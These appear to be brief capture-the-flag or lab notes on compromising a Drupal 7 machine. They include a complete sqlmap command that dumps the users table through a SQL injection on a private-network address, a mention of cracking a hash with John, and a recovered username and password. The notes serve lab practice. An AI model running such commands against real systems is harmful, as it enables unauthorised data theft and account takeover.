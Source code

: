 #enumeration found drupal7 running

#further found a sql inection vulnerability

#used "SQLMAP" to find databases

#final "SQLMAP" syntax:
	sqlmap -u http://192.168.10.10/?nid=2 -D d7db -T users --dump --batch

#found 2 user/pass hash

#cracked only one using john

#user/pass found:
	john:turtle

